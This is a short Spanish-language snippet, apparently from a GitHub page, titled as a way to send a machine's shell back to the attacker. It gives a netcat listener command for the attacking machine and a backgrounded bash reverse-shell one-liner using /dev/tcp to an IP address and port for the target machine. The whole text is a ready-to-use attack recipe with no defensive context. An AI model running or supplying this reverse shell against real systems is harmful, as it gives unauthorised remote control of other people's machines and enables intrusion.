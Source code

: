 ## Reenviar la shell de una maquina a la nuestra ##
En la maquina atacante:
nc -l 8080
En la maquina atacada:
nohup bash -i >& /dev/tcp/10.95.199.1/8080 0>&1 &
